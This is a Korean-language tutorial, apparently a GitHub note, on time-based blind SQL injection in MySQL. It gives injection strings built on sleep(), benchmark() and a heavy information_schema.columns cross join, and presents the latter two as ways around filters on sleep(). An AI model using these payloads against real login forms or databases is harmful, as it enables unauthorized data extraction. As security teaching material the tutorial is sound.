

# Time based blind sqli

#### Time based blind sqli 란
 
> blind sqli 를 시도해도 참인이 거짓인지 반환을 받지 못할때 시간지연 함수로 참과 거짓의 값을 가져온다.

db 예)

```sql
database -> test
tables -> member
column -> id, pw
column data -> (admin , password) (guest, guest)
```


Query 예)

```sql
SELECT * FROM member WHERE id='' or 1=1 and sleep(1);--and pw='';

SELECT * FROM member WHERE id='' and pw='' or 1=1 and sleep(1);--'';

# 1=1 과 sleep(1) 가 참이므로 작동이 된다.
# 1=1 식 자체는 참이고 sleep(1) 는 실행만 잘 되면 참이기때문에
# 시간지연이 일어나면서 참이라는 값을 얻게 된다.
```

하지만 이처럼 sleep() 같은 시간지연 함수가 필터링 될때에는 다양한 방법중에
자주 쓰이는 방법은 3개의 함수, 쿼리가있다.

```sql
sleep()

benchmark()

SELECT count(*) FROM information_schema.columns A , information_schema.columns B , information_schema.columns C;
```

이 3개의 방법을을 응용하여 

time-based sql injection 쿼리를 만든다면

이렇게 완성된다.
```sql

SELECT * FROM member WHERE id='' or sleep(10);

SELECT * FROM member WHERE id='' or 1=1 and sleep(10);

SELECT * FROM member WHERE id='' or 1=1 and benchmark(73900000*10,md5(1));

SELECT * FROM member WHERE id='' or 1=1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B);
```

<br>

### MySQL 시간 지연 우회

* * *

#### sleep()

__sleep() 함수는 사용할시에 시간지연을 시킨다.__

sleep(지연시키고싶은 시간(초 단위))

sleep() 함수는 정속적으로 지연되면 True 
그렇지 않다면 False 를 반환한다.

* sleep 함수의 지연되는 시간 단위는 각 운영체제의 설정에 따라 다를 수 있다.

<br>

* * *

#### benchmark()

__benchmark() 함수는 특정 연산 또는 구문을 반복시킨다.__

menchmark(반복할 개수, 연산)

이런식으로 인자를 넣어서 자신이 원하는 만큼만 반복을 시킨다음

반복하는 과정에서 시간지연이 생기게 된다.

<br>

* * *
#### information_schema.columns

해당 쿼리는 수많은 컬럼들을 COUNT(*) 로 한번에

불러오는 과정에서 시간지연이 생기게 되버린다.



밑의 1 row in set (42.55 sec) 가 나온것을 확인할수있다.

즉 count(*)로 합치면서 information_schema.columns A 와 B 를 SELECT 하면서

약 42 초가 걸리게 된다.

<br>

* * *

### 마무리

핵심은 저런 함수만 사용이 가능하는것이 아닌

Time based sql injection 인 만큼

시간 지연 가능한 쿼리만 잘 짜서 요청을 하면 된다.